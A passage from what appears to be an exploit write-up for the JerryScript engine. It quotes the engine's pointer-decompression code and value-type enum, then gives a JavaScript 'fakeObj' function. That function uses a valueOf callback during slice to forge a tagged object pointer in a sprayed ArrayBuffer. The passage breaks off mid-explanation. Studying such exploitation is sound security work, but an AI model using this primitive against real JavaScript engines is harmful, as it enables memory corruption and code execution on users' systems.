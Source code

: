 ```c
extern inline void * JERRY_ATTR_PURE JERRY_ATTR_ALWAYS_INLINE
jmem_decompress_pointer (uintptr_t compressed_pointer) /**< pointer to decompress */
{
  JERRY_ASSERT (compressed_pointer != JMEM_CP_NULL);

  uintptr_t uint_ptr = compressed_pointer;

  JERRY_ASSERT (((jmem_cpointer_t) uint_ptr) == uint_ptr);

#if defined (ECMA_VALUE_CAN_STORE_UINTPTR_VALUE_DIRECTLY) && JERRY_CPOINTER_32_BIT
  JERRY_ASSERT (uint_ptr % JMEM_ALIGNMENT == 0);
#else /* !ECMA_VALUE_CAN_STORE_UINTPTR_VALUE_DIRECTLY || !JERRY_CPOINTER_32_BIT */
  const uintptr_t heap_start = (uintptr_t) &JERRY_HEAP_CONTEXT (first);

  uint_ptr <<= JMEM_ALIGNMENT_LOG;
  uint_ptr += heap_start;

  JERRY_ASSERT (jmem_is_heap_pointer ((void *) uint_ptr));
#endif /* ECMA_VALUE_CAN_STORE_UINTPTR_VALUE_DIRECTLY && JERRY_CPOINTER_32_BIT */

  return (void *) uint_ptr;
} /* jmem_decompress_pointer */
```

As you can infer, `JMEM_ALIGNMENT_LOG` is 3.

And the types are listed here.
```c
typedef enum
{
  ECMA_TYPE_DIRECT = 0, /**< directly encoded value, a 28 bit signed integer or a simple value */
  ECMA_TYPE_STRING = 1, /**< pointer to description of a string */
  ECMA_TYPE_FLOAT = 2, /**< pointer to a 64 or 32 bit floating point number */
  ECMA_TYPE_OBJECT = 3, /**< pointer to description of an object */
  ECMA_TYPE_SYMBOL = 4, /**< pointer to description of a symbol */
  ECMA_TYPE_DIRECT_STRING = 5, /**< directly encoded string values */
  ECMA_TYPE_BIGINT = 6, /**< pointer to a bigint primitive */
  ECMA_TYPE_ERROR = 7, /**< pointer to description of an error reference (only supported by C API) */
  ECMA_TYPE_SNAPSHOT_OFFSET = ECMA_TYPE_ERROR, /**< offset to a snapshot number/string */
  ECMA_TYPE___MAX = ECMA_TYPE_ERROR /** highest value for ecma types */
} ecma_type_t;
```

Now, we can forge a `fakeObj` primitive.
```javascript
function fakeObj(addr) {
    var a = [];
    for (var i = 0; i < 100; i++) {
        a.push(0);
    }
    
    var b = a.slice(12, {valueOf: function() {
            a.length = 5;
            r = new ArrayBuffer(320);
            var w = new Uint32Array(r);
            w[0] = (addr << 3 ) | 3;
            return 13;
        }
    });
    return b.pop();
}
```
If you see this, we first create a fasttype array (contiguous array) named `a`. Then, what happens is the following.
